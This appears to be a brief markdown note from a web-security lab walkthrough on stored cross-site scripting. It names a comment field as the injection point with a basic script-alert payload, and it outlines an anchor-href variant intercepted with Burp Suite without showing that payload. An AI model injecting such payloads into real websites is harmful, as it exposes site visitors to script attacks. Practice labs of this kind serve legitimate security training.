

## Stored XSS into HTML context with nothing **encoded**

### Inject point
```
Comment Field
```

### Payload
```html
<script>alert(1)</script>
```



------------------------------

## Stored XSS into anchor href attribute with double quotes HTML-encoded 
### Inject point
```
Website Field
```


### Add website and submit, Use burpsuite intercept this request


### Forward and check


